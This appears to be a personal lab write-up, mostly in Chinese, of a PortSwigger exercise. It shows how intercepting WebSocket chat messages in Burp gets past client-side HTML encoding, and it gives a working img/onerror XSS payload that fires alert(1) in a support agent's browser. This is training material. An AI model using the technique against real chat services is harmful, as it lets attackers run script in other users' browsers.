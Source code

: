 ```yaml
---
layout: post
title: "Manipulating WebSocket messages to exploit vulnerabilities"
description: ""
date: 2023-07-11
categories:
  - PortSwigger_Lab
  - PortSwigger_WebSocket
author: ""
tags: ['PortSwigger_Lab', 'WebSocket']
---
```




# Manipulating WebSocket messages to exploit vulnerabilities



This online shop has a live chat feature implemented using [WebSockets](https://portswigger.net/web-security/websockets).

Chat messages that you submit are viewed by a support agent in real time.

To solve the lab, use a WebSocket message to trigger an `alert()` popup in the support agent's browser.



該在線商店具有使用 [WebSockets](https://portswigger.net/web-security/websockets) 實現的實時聊天功能。

您提交的聊天消息由支持代理實時查看。

要解決實驗室問題，請使用 WebSocket 消息在支持代理的瀏覽器中觸發“alert()”彈出窗口。







live chat 進入 聊天室:


You:123

Hal Pline: typing 

Hal Pline:What did your last slave machine die of?


拿BP 可以看一下
輸入888 send
可以 intercept 

to server:
```
{"message":"888"}

```

from server:
```
{"user":"You","content":"888"}
```

from server:
```
TYPING
```

from server:
```
{"user":"Hal Pline","content":"Sorry, I don't know that one; or any other one you're thinking up right now."}
```


注意:
截包過程不能太久，我猜可能是協議的關係，你握手步驟失敗太久會直接斷開。



而歷史訊息都會流下:
如果你重新f5然後去bp 的websocket history 可以發現，第一次和server 建立後，它會一直丟 client 歷史訊息。


也就是說，伺服器會儲存我們的信息，這就很危險。

你在很一個黑客聊天，結果它可以用 儲存息型 xss 攻擊你。

而你之後只要打開一次聊天室，就會中招。



這題是要我們alert(1)

payload:
```
<img src=1 onerror="alert(1)"></img>
失敗


```

直接輸入會失敗。

你用bp看一下:
被轉譯了
```


{"message":"&lt;img src=1 href=1 onerror=&quot;javascript:alert(1)&quot;&gt;&lt;/img&gt;"}

```


前端修改了一次，但發現後端也可能會檔一些符號，所以也不是能隨便alert(1)

又或許是lab只允許這個payload 也說不定。


最後成功的payload:
```

去掉雙引號
<img src=1 onerror=alert(1)></img>

```






